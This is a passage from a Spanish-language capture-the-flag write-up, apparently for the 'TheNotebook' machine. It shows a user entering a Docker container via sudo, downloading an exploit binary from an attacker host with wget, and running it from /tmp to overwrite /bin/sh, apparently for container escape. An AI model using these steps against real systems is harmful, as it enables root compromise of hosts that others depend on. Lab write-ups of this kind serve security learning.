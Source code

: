 En la máquina víctima indicamos:

```bash
noah@thenotebook:~$ sudo /usr/bin/docker exec -it webapp-dev01 bash
root@c6d778ee6b03:/opt/webapp# cd /dev/shm
# Descargamos el binario a la máquina
root@c6d778ee6b03:/dev/shm# wget http://10.10.14.194:8000/main
...
root@c6d778ee6b03:/dev/shm# ls -la
total 2220
drwxrwxrwt 2 root root      60 Mar 16 19:58 .
drwxr-xr-x 5 root root     360 Mar 16 19:16 ..
-rw-r--r-- 1 root root 2269904 Mar 16 19:42 main
# Damos permisos de ejecución
root@c6d778ee6b03:/dev/shm# chmod +x main
root@c6d778ee6b03:/dev/shm# ls -la
total 2220
drwxrwxrwt 2 root root      60 Mar 16 19:58 .
drwxr-xr-x 5 root root     360 Mar 16 19:16 ..
-rwxr-xr-x 1 root root 2269904 Mar 16 19:42 main
```

Acá estuve perdido un rato, ya que no lograba ejecutarlo:

```bash
root@c6d778ee6b03:/dev/shm# ./main
bash: ./main: Permission denied
root@c6d778ee6b03:/dev/shm# bash main 
main: main: cannot execute binary file
...
```

Dándole vueltas, desistí de ese script y usé otros repositorios, pero no conseguía ejecutar NADA (¿ya puedes imaginar por qué?)...

Pues resulta que si hacemos el mismo procedimiento, pero en el directorio  `/tmp` o incluso en el directorio `/opt/webapp`, ahí si me permite ejecutarlo 🙃 

Claramente por permisos que no entiendo, pero pues X:

```bash
root@c6d778ee6b03:/dev/shm# mv main /tmp/
root@c6d778ee6b03:/dev/shm# cd /tmp/
root@c6d778ee6b03:/tmp# ls -la
total 2264
drwxrwxrwt 1 root root    4096 Mar 16 20:05 .
drwxr-xr-x 1 root root    4096 Mar 16 19:16 ..
-rwxr-xr-x 1 root root 2269904 Mar 16 19:42 main
-rw-r--r-- 1 root root      78 Feb 12 07:12 requirements.txt
-rw-r--r-- 1 root root   32768 Feb 12 07:30 webapp.db
```

Ejecutamos:

```bash
root@c6d778ee6b03:/tmp# ./main 
[+] Overwritten /bin/sh successfully
```

